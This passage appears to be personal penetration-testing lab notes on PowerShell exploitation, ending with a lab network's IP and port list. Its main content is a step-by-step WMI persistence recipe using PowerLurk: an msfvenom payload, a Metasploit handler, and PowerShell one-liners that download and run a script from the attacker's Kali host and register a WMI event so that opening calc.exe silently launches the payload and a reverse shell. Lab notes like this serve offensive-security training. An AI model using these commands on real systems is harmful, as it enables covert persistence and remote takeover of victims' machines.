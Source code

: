 // if we want to kill the process remotely


### PowerLurk
https://github.com/Sw4mpf0x/PowerLurk

- make a payload in msfvenom
- send to the target machine via python web server host
- open a handler in metasploit
- download the PowerLurk.ps1 from github
- execute this command to grab the PowerLurk file and trigger with a program, in this case the calc.exe. 
// Everytime the target execute the calculator our payload will be executed.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk.ps1'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\payload.exe" -Trigger ProcessStart -ProcessName calc.exe
```

- To view our malicious WMI Event

```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk.ps1'); Get-WmiEvent -Name CalcExec
```

> now its up to the target user, to open the calculator 
it will trigger the reverse shell back to our kali 

### if you wanna Remove the Malicious WMI Event
```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk,ps1'); Get-WmiEvent -Name CalcExec | Remove-WmiObject
```




## Lab 1 - Leveraging PowerShell During Exploitation

organization - 172.16.80.0/24
172.16.80.1
172.16.80.100
tester ip = 175.12.80.0/24

#
my ip 175.12.80.10
#
172.16.80.1
172.16.80.100
	135
	139
	445
	4983

> we can access in browser or by nc
